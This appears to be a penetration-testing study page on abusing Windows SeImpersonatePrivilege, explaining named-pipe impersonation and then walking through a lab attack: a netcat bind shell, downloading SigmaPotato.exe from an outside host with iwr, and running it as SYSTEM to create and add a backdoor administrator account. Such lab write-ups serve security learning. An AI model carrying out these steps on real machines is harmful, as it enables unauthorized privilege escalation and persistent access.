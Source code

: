 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# SeImpersonatePrivilege

The `SeImpersonatePrivilege` allows a user to operate under another user's security context, typically by impersonating clients via mechanisms like **named pipes** or **RPC**. This privilege is normally assigned to `administrator` accounts and built-in service accounts like `LOCAL SERVICE`, `NETWORK SERVICE`, and `SERVICE`. While rare for standard users, `SeImpersonatePrivilege` is often accessible when gaining code execution through services like **IIS**, which commonly run under accounts that have it.

> _**Named pipes** are a method of **inter-process communication (IPC)** in Windows. They let two separate processes—either on the same system or across a network—**send and receive data** as if they were reading/writing to a file. Think of a named pipe as a **virtual file** that one process (the server) creates and waits on, while another (the client) connects to it using a known name (like `\\.\pipe\mypipe`). Once connected, both processes can exchange data in real time._

In the context of **privilege escalation**, named pipes can be abused when a **privileged process connects** to a pipe controlled by a lower-privileged attacker. If the attacker has `SeImpersonatePrivilege`, they can **impersonate the connecting user**, effectively hijacking their permissions.

[**SigmaPotato**](https://github.com/tylerdotrar/SigmaPotato) is a tool that leverages a variation of the "potato" attacks to coerce `NT AUTHORITY\SYSTEM` into connecting to a controlled named pipe. If we have `SeImpersonatePrivilege`, SigmaPotato lets us escalate to `SYSTEM`, executing commands or gaining an interactive shell.

{% tabs %}
{% tab title="1. Bind Shell" %}
{% code overflow="wrap" %}
```bash
$ nc 192.168.225.220 4444
Microsoft Windows [Version 10.0.22621.1555]
(c) Microsoft Corporation. All rights reserved.

C:\Users\dave>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State
============================= ========================================= ========
<SNIP>
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
<SNIP>
```
{% endcode %}
{% endtab %}

{% tab title="2. Execute" %}
{% code overflow="wrap" %}
```powershell
C:\Users\dave>powershell
<SNIP>

PS C:\Users\dave> iwr http://192.168.45.226/SigmaPotato.exe -outfile sigmapotato.exe
iwr http://192.168.45.226/SigmaPotato.exe -outfile sigmapotato.exe
```
{% endcode %}
{% endtab %}

{% tab title="3. Exploit" %}
{% code overflow="wrap" %}
```powershell
PS C:\Users\dave> .\sigmapotato.exe "net user dave4 lab /add"
.\sigmapotato.exe "net user dave4 lab /add"
[+] Starting Pipe Server...
[+] Created Pipe Name: \\.\pipe\SigmaPotato\pipe\epmapper
[+] Pipe Connected!
[+] Impersonated Client: NT AUTHORITY\NETWORK SERVICE
[+] Searching for System Token...
[+] PID: 1016 | Token: 0x280 | User: NT AUTHORITY\SYSTEM
[+] Found System Token: True
[+] Duplicating Token...
[+] New Token Handle: 1040
[+] Current Command Length: 23 characters
[+] Creating Process via 'CreateProcessWithTokenW'
[+] Process Started with PID: 5424

[+] Process Output:
The command completed successfully.


PS C:\Users\dave> .\sigmapotato.exe "net localgroup Administrators dave4 /add"
.\sigmapotato.exe "net localgroup Administrators dave4 /add"
[+] Starting Pipe Server...
[+] Created Pipe Name: \\.\pipe\SigmaPotato\pipe\epmapper
[+] Pipe Connected!
[+] Impersonated Client: NT AUTHORITY\NETWORK SERVICE
[+] Searching for System Token...
[+] PID: 1016 | Token: 0x280 | User: NT AUTHORITY\SYSTEM
[+] Found System Token: True
[+] Duplicating Token...
[+] New Token Handle: 988
[+] Current Command Length: 40 characters
[+] Creating Process via 'CreateProcessWithTokenW'
[+] Process Started with PID: 10876

[+] Process Output:
The command completed successfully.
```
{% endcode %}
{% endtab %}

{% tab title="4. Confirm" %}
```powershell
PS C:\Users\dave> Get-LocalGroupMember administrators
Get-LocalGroupMember administrators

ObjectClass Name                      PrincipalSource
----------- ----                      ---------------
User        CLIENTWK220\Administrator Local
User        CLIENTWK220\BackupAdmin   Local
User        CLIENTWK220\dave4         Local
User        CLIENTWK220\daveadmin     Local
User        CLIENTWK220\offsec        Local
```
{% endtab %}
{% endtabs %}
